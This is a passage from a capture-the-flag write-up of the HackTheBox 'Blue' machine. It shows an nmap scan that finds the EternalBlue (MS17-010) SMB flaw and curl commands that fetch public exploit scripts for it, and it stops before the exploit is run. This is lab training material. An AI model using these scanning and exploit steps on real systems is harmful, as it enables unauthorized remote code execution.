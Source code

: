 ## Port 445 `Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

If we use the `smb-vuln-*` scripts of `nmap`, we see that it is vulnerable to `EternalBlue`.

```bash
$ nmap -Pn -p 445 --script smb-vuln-* blue.htb                                 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 09:21 EST
Nmap scan report for blue.htb (10.10.10.40)
Host is up (0.0097s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

# Exploitation

`Metasploit` has modules that exploit this vulnerability but I will be using some scripts that I found on Github that are able to do the same job.

```bash
$ mkdir eternalblue
$ curl https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py > eternalblue/send_and_execute.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py > eternalblue/mysmb.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/checker.py > eternalblue/checker.py
```

Exploiting `EternalBlue` requires us to find an accessible named pipe, so lets run `checker.py`.
